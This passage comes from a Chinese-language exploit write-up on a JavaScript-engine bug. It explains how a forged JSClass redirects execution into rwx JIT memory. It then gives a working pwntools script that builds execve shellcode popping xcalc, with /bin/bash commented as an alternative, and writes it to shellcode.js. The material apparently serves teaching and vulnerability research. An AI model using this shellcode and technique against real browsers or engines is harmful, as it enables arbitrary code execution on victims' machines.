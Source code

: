 ### <a class="reference-link" name="%E4%BB%BB%E6%84%8F%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C"></a>任意代码执行

前面的 `JSClass` 伪造完成之后，只要执行`buf[7].jjj=i2f(shellcode_addr)`, 就会跳转去执行`jit` 上的shellcode, `rcx == shellcode_addr`, `shellcode_addr` 对应的内存变成`rwx`, 往这块内存写入shellcode就可以任意代码执行啦。我们希望可以弹出一个计算器出来, 这里我写了一个生成 shellcode 的脚本

```
from pwn import *

context.arch='amd64'

cmd='/usr/bin/xcalc'
env='DISPLAY=:0'

#cmd='/bin/bash'
#env='x00'

cmd_off = 0x50

env_off = cmd_off + len(cmd) + 0x20
shellcode='''
lea    rdi, [rip + %d]
xor    rsi, rsi
push   rsi
push   rdi
push rsp
pop    rsi
xor rdx,rdx
push   rdx
lea    rdx,[rip+ %d ]
push   rdx
push   rsp
pop    rdx
mov    al,0x3b
syscall
''' % (cmd_off-0x7, env_off-25)
shellcode=asm(shellcode).ljust(cmd_off,'x90')
shellcode+=cmd
shellcode=shellcode.ljust(env_off,'x00')
shellcode+=env
shellcode+='x00'

print(len(shellcode))
print(shellcode)

jsdata='sc = '+str([ord(i) for i in shellcode])+'n'
print(jsdata)
with open('shellcode.js','w') as f:
    f.write(jsdata)
    f.close()
```


[+]: 0 96
[+]: 1 96
[+]: 2 96
[+]: 3 96
[+]: 4 96
[+]: 5 96
[+]: 6 256
[+]: 7 96
[+]: 8 96
[+]: 9 96
[+]: 10 96
[+]: 11 96
[+]: 12 96
[+]: 13 96
[+]: 14 96
[+]: 15 96